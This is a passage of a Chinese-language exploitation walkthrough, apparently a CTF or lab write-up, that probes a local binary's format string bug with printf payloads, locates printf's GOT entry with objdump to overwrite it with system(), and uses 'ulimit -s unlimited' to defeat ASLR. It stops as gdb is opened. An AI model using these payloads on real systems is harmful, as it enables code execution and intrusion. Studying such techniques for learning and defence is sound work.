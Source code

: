 ![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KP5rYdmpIx7ibZF923tAPIEuGDBVTWibcAeibcxgsBZ67uj0SgEeQP8rHkhHuFvzP5s6N01rOB4QiczQQ/640?wx_fmt=png)

```
printf '1\n1\nAAAA.0x%%x\n4\n' | ./my_first
```

通过为它提供一个 4A 的字符串，然后将格式字符串参数增加 1 直到找到 4A，这边使用了格式化为十六进制 %x，我需要找到 41414141，因此格式字符串将以开头 AAAA.0x%s...

输出 `AAAA.0xbfb85f2c`... 需要不断增加值...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KP5rYdmpIx7ibZF923tAPIEuic6JIPgKhno5iafrJ4vJXnRxax54ibPMlgrADfJ1VtIbTjJU5nRyL9qkw/640?wx_fmt=png)

```
printf '1\n1\nAAAA.0x%%x0x%%x0x%%x0x%%x0x%%x0x%%x0x%%x0x%%x\n4\n' | ./my_first
```

使得可以进入参数 8，我加了 8 组 0x%%x... 找到了十六进制的 A 字符...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KP5rYdmpIx7ibZF923tAPIEuOBOKVsYhyUeaq6xnACUNKKdgaKt8YNhcKKevOk8oarsRhiaoic8ncadA/640?wx_fmt=png)

```
printf '1\n1\nAAAA.0x%%8$x\n4\n' | ./my_first
```

由于格式字符串中使用直接参数访问，可以直接引用参数 8...

可以看到格式字符串中的参数 8，是堆栈部分的开始...

继续使用 %n 格式字符串写入内存中的任意区域.... 要找到 printf....（print 前面章节也讲过，写过一篇格式字符串的）

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KP5rYdmpIx7ibZF923tAPIEuNS3lEtibQrKNrEUZ73fzaDrlyxqgxVkdicbAficEYRzZiaR6QaXicubJQHg/640?wx_fmt=png)

```
objdump -R ./my_first
```

为了能转储 GOT... 使用 objdump 查找 printf...

printf 查看到的位置是：08049bfc，这是要重写 printf libc 地址的部分 system()...

现在需要知道 system() 实际位置，（可能影响内存中此位置的重要向量称为 ASLR）它将有效地导致 system() 每次运行./my_first 时其地址都不同，为了解决这个问题，可以使用 ulimit 来增加堆栈大小，ulimit -s unlimited 将最大化堆栈大小，有效地导致 ASLR 实际上不存在...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KP5rYdmpIx7ibZF923tAPIEu9LnO4AeCsibR7XXZnC8cBPjsGrO2C95IaT0pibyfqCdibeibardqO7KzAg/640?wx_fmt=png)

```
ulimit -s unlimited
```

可以看到开始是 8192.... 使用后不存在了...

随着 ASLR 问题解决了，直接找到 system() 地址即可... 直接上 GDB... 讲了很多次的

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KP5rYdmpIx7ibZF923tAPIEuybjZgU0g9ARbAoefcB72ACpTmibQ8nOXMn7D85JsfBOzh1eqItXoOPA/640?wx_fmt=png)

```
gdb -q ./my_first
b main
```
